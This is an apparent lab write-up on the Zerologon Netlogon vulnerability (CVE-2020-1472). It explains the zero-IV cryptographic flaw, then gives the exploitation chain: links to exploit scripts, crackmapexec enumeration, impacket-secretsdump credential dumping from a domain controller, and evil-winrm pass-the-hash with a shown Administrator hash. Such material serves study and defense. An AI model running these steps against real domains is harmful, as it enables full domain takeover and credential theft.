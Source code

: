 Zero Logon is a vulnerablity that abuses features with MS-NRPC. An attacker goes from zero to Domain admin in approximately one minute.

#### About The Vulnerability
Microsoft handles Authentication within ComputeNetLogonCredetial function of MS-NRPC.
Based on Microsoft Netlogon Remote Protocol; a critical authentication component of AD (users and machines); attack focuses on poor implementation of cryptography. Microsoft uses AES-CFFB8 which has hardcoded IV as all 0s instead of random strings. So when an attacker sends a message containing all 0s there is a 1 in 256 chance that the ciphertext would be 0.


##### About Machine Accounts
Effective on machine accounts because when tried on user accounts, we get locked out. Because machine accounts have no predefined account lockout attempts because a 64+ character alpha-numeric password is used to secure them, making it diffiecult to break through

#### Abusing the Vulnerablity
Machine accounts hold system level privilege: <br />
`Use Zero Logon to bypass authentication on the Domain Controller's Machine Account -> Run Secretsdump.py to dump credentials -> Crack/Pass Domain Admin Hashes -> ??? -> Profit`

#### Analyzing the MS-NRPC Logon Process
Lets see how Microsoft handles authentication to NRPC.
**Steps**
- Client creates NetrServerReqChallenge and sends it. The request contains the followig:
    - The Domain Controller
    - The Target device
    - A nonce (could be 16 bytes if zer0)
- The Server receives the NetrServerReqChallenge, generated its own nonce (server challenge) and sends the server challenge back
- Client compute it's NetLogon Credentials with the Server Challenge provided. Uses the NetrServerAuthenticate3 method. (requires; A custom binding handle, an account name, a secure channel type, the coomputer name, the cleint cred string, negotiation flags). Mimikatz gives us a buck load of the fake creds here.
- The server receives the NetrServerAuthenticate request and compute the same request itself using its known good values. If the results are good, the server sends the require info back to the client. 

Steps 4 and 3 are iterative; this is teh 1 in 256 chances
- if the server calculates the same value, the cleient will re-verify and once mutual agreement is confirmed, they will agree on a session key. The session key is used to encrypt communications btw the client and the server, which means authentication is successful. From here, normal RPC communications can occur.


### Proof of Concept
CVE by Secura https://github.com/SecuraBV/CVE-2020-1472
Download PoC from: https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py
Modified code for exploit: https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py <br />
Exploit a vulnerable Domain Controller. <br />
Usage: <br />
![alt text](https://github.com/secjedi/CyberDefense/blob/main/Images/zerologon/1.png) <br />

To get domain name: <br />
`└─$ crackmapexec smb 10.10.25.29 -u 'guest' -p ''                   1 ⨯`
![alt text](https://github.com/secjedi/CyberDefense/blob/main/Images/zerologon/4.png) <br />

Running script against our vulnerable domain controller: <br />
![alt text](https://github.com/secjedi/CyberDefense/blob/main/Images/zerologon/2.png) <br />
Now, to pull the secret off the target machine: <br />
`└─$ impacket-secretsdump -just-dc -no-pass DC01\$@10.10.25.29                                                                                                                                   130 ⨯
`
![alt text](https://github.com/secjedi/CyberDefense/blob/main/Images/zerologon/5.png) <br />

Now we can pass the hash with winrmc: <br/>
`└─$ evil-winrm -i 10.10.25.29 -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568                                                                                                              130 ⨯
`
![alt text](https://github.com/secjedi/CyberDefense/blob/main/Images/zerologon/6.png)
